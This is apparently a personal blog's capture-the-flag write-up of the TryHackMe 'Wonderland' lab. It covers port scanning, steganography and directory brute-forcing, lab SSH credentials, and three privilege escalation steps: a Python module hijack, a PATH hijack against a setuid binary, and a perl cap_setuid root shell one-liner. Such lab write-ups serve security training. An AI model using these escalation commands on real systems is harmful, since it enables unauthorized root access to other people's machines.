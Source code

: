 ```yaml
---
layout: default
title : Wonderland - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Nov 10, 2020**_

[Wonderland](https://tryhackme.com/room/wonderland) Writeup

## Recon :

```
bvr0n@kali:~/CTF/THM/Wonderland$ nmap -sC -sV 10.10.252.9
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-10 10:28 EST
Nmap scan report for 10.10.252.9
Host is up (0.092s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Recon :

Goin to the web page gets us only a `jpeg` image, let's download it and see what can we do with it :

```
bvr0n@kali:~/CTF/THM/Wonderland$ wget http://10.10.252.9/img/white_rabbit_1.jpg
bvr0n@kali:~/CTF/THM/Wonderland$ steghide extract -sf white_rabbit_1.jpg 
Enter passphrase: 
wrote extracted data to "hint.txt".
```
Turns out, there is a files hidden inside that says this :

```
follow the r a b b i t
```
Didn't understand at first, but when i brute forced directoris i get the idea :

```bash
bvr0n@kali:~/CTF/THM/Wonderland$ ffuf -c -u http://10.10.252.9/FUZZ -w ~/Documents/Dirbuster/wordlist.txt 

img                     [Status: 301, Size: 0, Words: 1, Lines: 1]
index.html              [Status: 301, Size: 0, Words: 1, Lines: 1]
r                       [Status: 301, Size: 0, Words: 1, Lines: 1]
```

The files was pointing to a path in the browser :

```
http://10.10.252.9/r/a/b/b/i/t/
```

Once i checked the code source i found a hidden text, hidding alice's SSH creds :

```
alice:HowDothTheLittleCrocodileImproveHisShiningTail
```

## Priv Esc :

After some enumeration, i found out that the `/root/` is accessible by everyone but read permission was not given on the other hand execute permission was present, so we can get the `user.txt`

** Rabbit User :

in Alice home directory we can find a script that basically import the random module.

So, we can create a file named random.py in our current working directory that executes `/bin/bash` This way the python file should be loaded instead of the "real" random module, and in turn give us a shell as the rabbit user.
`random.py` :
```python 
import os

os.system("/bin/bash")
```
```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$
```

** Hatter User :

In `/home/rabbit` we can see a setuid binary, after examining the file, we can see that `date` is getting executed without pecifying an absolute path :

```
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```

We can abuse this by exporting our own `$PATH` and providing a fake `date` script that will give us a shell with the user :

```
rabbit@wonderland:/tmp$ cat date 
#!/bin/bash
/bin/bash
rabbit@wonderland:/home/rabbit$ chmod +x date
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
hatter@wonderland:/home/rabbit$ whoami
hatter
```
Inside his directory we can find his ssh credentials :

```
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
```

** Root :

After some enumeration, linpeas showed something intresting :

```
Files with capabilities:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

Looks like `perl` have this capability `cap_setuid+ep` and that we can abuse, [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) :

```bash
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
root@wonderland:~# whoami; id
root
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](bvr0n.github.io/)

<br>
